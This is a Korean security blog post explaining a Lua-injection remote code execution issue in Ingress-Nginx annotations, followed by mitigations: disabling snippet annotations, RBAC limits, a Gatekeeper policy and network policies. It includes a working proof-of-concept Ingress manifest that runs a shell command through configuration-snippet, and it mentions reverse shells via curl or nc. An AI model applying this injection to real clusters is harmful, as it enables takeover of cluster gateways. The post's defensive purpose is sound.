

## 서론

새벽 2시, 모니터링 대시보드의 인그레스 컨트롤러(Ingress Controller) CPU 사용률 그래프가 수직으로 치솟습니다. 트래픽 폭주인가? 아니면 DDoS인가? 잠시 후 SIEM(Security Information and Event Management)에서 알림이 울립니다. Ingress-Nginx 파드에서 `nc`(netcat)과 같은 이색적인 프로세스가 탐지되었습니다.

많은 클라우드 보안 팀이 쿠버네티스의 워커 노드나 API 서버 보안에 집중하는 사이, 공격자들은 가장 외부에 노출된 문인 '인그레스'를 노리고 있습니다. 특히 Ingress-Nginx는 클라우드 네이티브 환경에서 가장 널리 사용되는 진입점인데, 여기에 원격 코드 실행(RCE) 취약점이 발생했다는 사실은 보안 팀에게 악몽과도 같습니다. 단순한 트래픽 라우팅을 넘어, 공격자는 이 취약점을 통해 인그레스 컨트롤러 자체를 '떨어뜨려(dropping)' 클러스터 내부의 민감한 정보를 탈취하거나 횡적 이동(Lateral Movement)을 시도할 수 있습니다. 본 글에서는 최근 공개된 Ingress-Nginx의 RCE 취약점의 기술적 원리를 해부하고, 실제 공격 시나리오를 시뮬레이션하여 방어 전략을 수립합니다.

> **⚠️ 윤리적 경고**: 본 문서에 포함된 모든 기술적 정보, 코드 예시 및 시나리오는 보안 연구 및 방어 목적(Defensive Security)을 위해서만 제공됩니다. 허가되지 않은 시스템에서의 테스트는 불법이며 법적 책임을 질 수 있습니다.

## 본론

### 기술적 배경: 인그레스와 Lua 스크립트 주입

Ingress-Nginx는 NGINX 웹 서버를 기반으로 하며, 쿠버네티스의 Ingress 리소스를 감시하여 동적으로 NGINX 설정(`nginx.conf`)을 재작성합니다. 문제는 이 과정에서 발생합니다. Ingress-Nginx는 사용자가 요청을 세밀하게 제어할 수 있도록 **Annotations(주석)** 기능을 제공합니다.

대부분의 취약점은 사용자가 입력한 Annotation 값이 충분히 검증되지 않은 상태에서 NGINX 설정 파일의 Lua 스크립트 블록으로 직접 삽입되는 지점에서 발생합니다. 공격자는 악의적인 Lua 코드를 Annotation에 삽입하여, Ingress Controller가 설정을 다시 로드할 때 해당 코드가 서버 측에서 실행되도록 유도합니다.

다음은 공격자가 인그레스 설정을 조작하여 명령어를 실행하는 과정을 시각화한 것입니다.



### 취약점 분석 및 공격 시나리오

이번 취약점(CVE 계열 주요 Lua 주입 이슈)의 핵심은 **Configuration Snippet**이나 특정 Lua 기반 Annotation의 입력 검증 누락입니다. 공격자는 단순히 인그레스를 생성하는 권한만 있어도 클러스터 내부에서 임의의 코드를 실행할 수 있습니다.

#### PoC (개념 증명) 코드 예시

아래는 취약한 버전의 Ingress-Nginx를 대상으로, 악의적인 Annotation을 통해 인그레스 컨트롤러 내부에서 시스템 명령어(`whoami`)를 실행시키는 PoC YAML 예제입니다.

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  namespace: default
  annotations:
    # 취약점: Lua 스크립트 주입이 가능한 Annotation (환경에 따라 키는 다를 수 있음)
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /exploit {
          default_type 'text/plain';
          content_by_lua_block {
              os.execute("whoami > /tmp/pwned.txt");
              ngx.say("Command Executed via Ingress!");
          }
      }
spec:
  rules:
  - host: attack.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: dummy-service
            port:
              number: 80
```

이 코드가 배포되면 Ingress-Nginx 컨트롤러는 이 설정을 읽어 `nginx.conf`에 해당 Lua 블록을 포함시킵니다. 설정이 리로드되면 `os.execute` 함수가 실행되어 컨트롤러 파드 파일 시스템 내에 `pwned.txt`가 생성됩니다. 여기서 더 나아가 공격자는 `curl`이나 `nc`를 이용해 외부로 Reverse Shell을 열 수 있습니다.

### 영향 분석 및 비교

이 공격이 성공했을 때 피해 범위는 단순한 웹 서비스 장애를 넘어섭니다. 인그레스 컨트롤러는 클러스터 내 모든 트래픽의 관문(Gateway)이며, 종종 Service Account Token과 같은 민감한 정보를 가지고 있습니다.

| 구분 | 일반적인 웹 애플리케이션 취약점 | Ingress-Nginx RCE 취약점 |
| :--- | :--- | :--- |
| **공격 대상** | 특정 웹 컨테이너 (Pod) | 클러스터의 진입점 (Control Plane 구성요소) |
| **필요 권한** | 별도의 권한 불필요 (웹 노출) | Ingress 리소스 생성/수정 권한 (RBAC) |
| **주요 피해** | 데이터 유출, 웹사이트 변조 | 클러스터 장악, 횡적 이동, 모든 트래픽 도청 |
| **탐지 난이도** | 비교적 쉬움 (WAF 등) | 어려움 (정상적인 설정 변경으로 위장됨) |

### 완화 조치 및 방어 가이드

취약점을 방어하기 위해서는 다층적인 접근이 필요합니다. 단순히 버전을 업데이트하는 것만으로는 부족할 수 있습니다.

#### 1. 즉시 조치 (Immediate Action)

- **Ingress-Nginx 버전 업그레이드**: 영향을 받는 버전을 사용 중인 경우, 최신 보안 패치가 적용된 버전으로 즉시 업데이트하십시오. (예: v1.2.0 이상의 특정 패치 버전)

- **Snipped Annotation 비활성화**: Lua 스크립트나 Nginx 설정 조각을 직접 삽입할 수 있는 Annotation 기능을 차단하는 것이 가장 확실한 완화책입니다. Ingress-Nginx ConfigMap을 수정하여 `allow-snippet-annotations`를 `false`로 설정하십시오.

```yaml
# ingress-nginx-controller ConfigMap 수정 예시
apiVersion: v1
kind: ConfigMap
metadata:
  name: ingress-nginx-controller
  namespace: ingress-nginx
data:
  allow-snippet-annotations: "false"  # 기본값은 true이나 보안을 위해 false 강력 권장
```

#### 2. RBAC 및 정책 강화

공격자가 악의적인 Ingress를 생성하지 못하도록 권한을 최소화해야 합니다.

- **RBAC 최소 권한 원칙**: 개발자나 CI/CD 파이프라인에 부여된 권한을 검토합니다. 일반적인 애플리케이션 개발자에게는 Ingress 리소스의 생성/수정 권한을 제거하고, Service 및 Deployment에만 집중하도록 합니다.

- **Admission Controller (OPA/Gatekeeper) 적용**: 클러스터 내에 리소스가 생성될 때 검증하는 정책을 적용합니다.

```text
# OPA Gatekeeper Rego 예시: 특정 위험한 Annotation 차단
package k8sallowedannotations

violation[{"msg": msg}] {
  input.review.kind.kind == "Ingress"
  # 위험한 Lua 스크립트 주입 관련 Annotation 차단
  contains(input.review.object.metadata.annotations[key], "lua_block")
  msg := sprintf("Ingress에 Lua 스크립트 실행이 가능한 Annotation(%v)이 금지되어 있습니다.", [key])
}
```

#### 3. 네트워크 보안

- **네트워크 정책(Network Policy)**: Ingress-Nginx 컨트롤러가 인터넷에서만 접근 가능하고, 클러스터 내부의 민감한 네임스페이스(예: `kube-system`, `database`)로 무작정 접근할 수 없도록 Network Policy를 구성합니다.

## 결론

Ingress-Nginx의 RCE 취약점은 쿠버네티스 보안의 가장 큰 패러다임인 "쿠버네티스 자체의 보안"과 "그 위에서 구동되는 애플리케이션 보안" 사이의 경계를 허무는 사건이었습니다. 공격자는 복잡한 커널 익스플로잇이 없이도, 단순히 YAML 설정 파일 몇 줄만으로 클러스터의 관문을 장악할 수 있었습니다.

핵심은 **"신뢰할 수 없는 설정(Untrusted Configuration)"**을 차단하는 것입니다. `allow-snippet-annotations: false` 설정은 보안과 편의성 사이의 트레이드오프(Trade-off)를 보여주는 확실한 사례입니다. 편의성을 위해 Lua 스크립트 직접 삽입을 허용하는 순간, 그 권한이 공격자의 손에 넘어갔을 때 치명적인 결과를 초래합니다.

보안 전문가로서의 조언은 이것입니다: 클러스터의 모든 구성 요소는 코드이며, 모든 코드는 보안 감시 대상입니다. 특히 '인그레스'와 같은 진입점 리소스는 항상 가장 높은 보안 등급으로 관리되어야 합니다. 지금 바로 여러분의 Ingress-Nginx ConfigMap을 확인하고, `allow-snippet-annotations` 설정이 `false`로 되어 있는지, 그리고 불필요한 Ingress 생성 권한이 널리 퍼져 있지는 않은지 점검하시기 바랍니다.

### 참고자료

- [Kubernetes Ingress Nginx Documentation](https://kubernetes.github.io/ingress-nginx/)

- [CVE-2021-25742: Vulnerability in nginx-ingress-controller](https://nvd.nist.gov/vuln/detail/CVE-2021-25742)

- [OWASP Kubernetes Top 10](https://owasp.org/www-project-kubernetes-top-ten/)
